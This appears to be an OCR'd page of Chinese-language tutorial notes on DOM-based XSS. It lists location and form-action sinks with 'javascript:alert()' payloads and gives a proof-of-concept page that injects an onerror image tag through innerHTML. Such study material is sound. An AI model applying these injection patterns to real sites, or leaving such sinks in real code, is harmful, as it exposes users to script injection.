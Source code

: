 ```
document.location      // 例1 document.location='javascript:alert(2)';  //location is a structured object, with properties corresponding to the parts of the URL.
document.location.href // 例2 document.location.href='javascript:alert(1)';  // location.href is the whole URL in a single string. Assigning a string to either is defined to cause the same kind of navigation, so take your pick.
location.assign        // 例3 location.assign("javascript:alert(1)")
location.replace       // 例4 location.replace("javascript:alert(1)")

<form action='javascript:alert(1)'> <input type=submit> </form>  // submit 提交表单时触发XSS

----

## 其他Sinks

Range.createContextualFragment
crypto.generateCRMFRequest
```

#### DOM based XSS 实例1 - 从anyElement.innerHTML触发

* 对某html元素内的
  * "HTML代码" 进行读`outerHTML`   写`innerHTML`【可导致XSS】
  * "纯文本" 进行读 `outerText`   写 `innerText`

```html
<div id="test">
   <span style="color:red">test1</span> test2
</div>
```

```
//使用 .innerHTML .outerHTML 能够读取/写入元素中的html代码.  在console下测试：


//执行  test.innerHTML
//输出  <span style="color:red">test1</span> test2

//执行  test.innerText
//输出  test1 test2

//执行  test.outerHTML
//输出  <div id="test"><span style="color:red">test1</span> test2</div>
```

可知 `anyElement.innerHTML`可以将html代码写入该元素


构造poc1.html
```html
<a id=a></a>
<title id=b></title>
<div id=c></div>

<script>
document.getElementById("a").innerHTML="<img src=@ onerror=alert(1) />";
document.getElementById("b").innerHTML="<img src=@ onerror=alert(2) />";
document.getElementById("c").innerHTML="<img src=@ onerror=alert(3) />";
</script>
```
